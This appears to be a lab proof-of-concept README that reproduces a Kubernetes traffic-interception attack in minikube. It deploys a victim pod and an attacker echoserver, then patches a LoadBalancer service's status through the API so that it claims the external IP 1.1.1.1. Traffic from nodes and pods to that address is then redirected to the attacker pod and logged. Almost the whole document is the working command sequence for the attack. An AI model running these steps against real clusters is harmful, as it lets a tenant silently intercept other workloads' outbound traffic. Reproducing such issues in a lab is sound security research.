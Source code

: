 Run minikube with calico
```
minikube start --network-plugin=cni --cni=calico
```

Create namespace app
```
kubectl create ns app
```
Deploy "victim-client" pod to simulate an in-cluster HTTP client with curl

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: victim-client
  namespace: app
spec:
  containers:
    - name: curl
      image: curlimages/curl:7.67.0
      command: [ "/bin/sleep", "3600" ]
EOF
```

Check that we have access to our external victim (here 1.1.1.1)

```
# from a node
minikube ssh
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# from the pod
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k

```

Deploy "mitm pod"

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: tcc
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: tcc
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

external traffic interception using service type LoadBalancer

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-external-lb
  namespace: tcc
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/tcc/services/mitm-external-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"1.1.1.1"}]}}}'
pkill kubectl
```

After the patch call, LoadBalancer IP is properly configured (ie not pending)

```
kubectl get -n tcc svc/mitm-external-lb
```

Test if the MITM works
```
# node -> ip
minikube ssh
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# pod -> ip
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k
```

view traffic 

```
stern -n tcc echoserver
```